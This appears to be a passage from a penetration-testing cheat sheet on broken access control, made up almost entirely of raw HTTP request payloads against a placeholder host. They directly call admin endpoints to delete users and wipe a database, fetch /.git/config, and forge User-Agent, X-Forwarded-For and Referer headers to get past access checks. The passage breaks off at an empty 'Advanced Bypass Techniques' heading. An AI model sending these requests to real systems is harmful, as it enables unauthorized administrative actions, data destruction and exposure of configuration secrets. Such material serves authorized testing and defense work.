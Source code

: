 
## Admin Functionality Access

### Direct Admin Panel Access
```http
GET /admin/deleteUser?id=123 HTTP/1.1
Host: target.com
Cookie: session=user_session
```

### Admin API Endpoint Access
```http
POST /internal/api/wipeDatabase HTTP/1.1
Host: target.com
```

### Configuration File Access
```http
GET /.git/config HTTP/1.1
Host: target.com
```

---

## Metadata Manipulation

### User-Agent Based Access Control
```http
GET /admin/ HTTP/1.1
Host: target.com
User-Agent: InternalAdminTool/1.0
```

### IP Based Privilege Escalation
```http
GET /internal/ HTTP/1.1
Host: target.com
X-Forwarded-For: 192.168.1.1
```

### Referer Header Bypass
```http
GET /admin/panel HTTP/1.1
Host: target.com
Referer: https://target.com/admin/
```

---

## Advanced Bypass Techniques
